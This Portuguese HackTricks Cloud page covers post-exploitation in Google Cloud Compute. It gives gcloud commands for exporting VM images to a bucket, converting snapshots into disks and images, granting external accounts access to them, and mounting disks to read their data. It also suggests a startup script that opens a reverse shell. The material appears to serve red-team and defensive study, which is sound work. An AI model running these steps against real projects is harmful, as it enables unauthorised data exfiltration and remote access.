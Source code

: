 # GCP - Compute Post Exploitation

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>

## Computação

Para mais informações sobre Computação e VPC (Rede) verifique:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Exportar e Inspeccionar Imagens localmente

Isso permitiria a um atacante **acessar os dados contidos em imagens já existentes** ou **criar novas imagens de VMs em execução** e acessar seus dados sem ter acesso à VM em execução.

É possível exportar uma imagem de VM para um bucket e depois baixá-la e montá-la localmente com o comando:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Antes de realizar esta ação, o atacante pode precisar de privilégios sobre o bucket de armazenamento e com certeza **privilégios sobre o cloudbuild** pois é o **serviço** que será solicitado para realizar a exportação. Além disso, para que isso funcione, o SA do cloudbuild `<project-id>@cloudbuild.gserviceaccount.com` precisa de permissões privilegiadas:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

E o SA `<project-id>-compute@developer.gserviceaccount.com` precisa de:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Exportar e Inspeccionar Snapshots e Discos localmente

Não é possível exportar diretamente snapshots e discos, mas é possível **transformar um snapshot em um disco, um disco em uma imagem** e seguindo a **seção anterior**, exportar essa imagem para inspecioná-la localmente

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Inspeção de uma Imagem criando uma VM

Com o objetivo de acessar os **dados armazenados em uma imagem** ou dentro de uma **VM em execução** de onde um atacante **criou uma imagem**, é possível conceder acesso a uma conta externa sobre a imagem:

```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```

e depois criar uma nova VM a partir dele:

```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```

Se você não puder dar acesso à sua conta externa sobre a imagem, você poderia lançar uma VM usando essa imagem no projeto da vítima e **fazer com que os metadados executem um shell reverso** para acessar a imagem adicionando o parâmetro:

```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```

### Inspeção de um Snapshot/Disk ao anexá-lo a uma VM

Com o objetivo de acessar os **dados armazenados em um disco ou snapshot, você pode transformar o snapshot em um disco, um disco em uma imagem e seguir os passos anteriores.**

Ou você pode **conceder acesso a uma conta externa** sobre o disco (se o ponto de partida for um snapshot, conceda acesso sobre o snapshot ou crie um disco a partir dele):

```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```

**Anexar o disco** a uma instância:

```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```

Monte o disco dentro da VM:

1. **Acesse a VM via SSH**:

```sh
gcloud compute ssh [NOME_DA_INSTÂNCIA] --zone [ZONA]
```

2. **Identifique o Disco**: Uma vez dentro da VM, identifique o novo disco listando os dispositivos de disco. Normalmente, você pode encontrá-lo como `/dev/sdb`, `/dev/sdc`, etc.
3. **Formate e Monte o Disco** (se for um disco novo ou não formatado):

* Crie um ponto de montagem:

```sh
sudo mkdir -p /mnt/disks/[DIRETÓRIO_DE_MONTAGEM]
```

* Monte o disco:

```sh
sudo mount -o discard,defaults /dev/[DISPOSITIVO_DE_DISCO] /mnt/disks/[DIRETÓRIO_DE_MONTAGEM]
```

Se você **não pode dar acesso a um projeto externo** para o snapshot ou disco, talvez precise **realizar essas ações dentro de uma instância no mesmo projeto do snapshot/disco**.
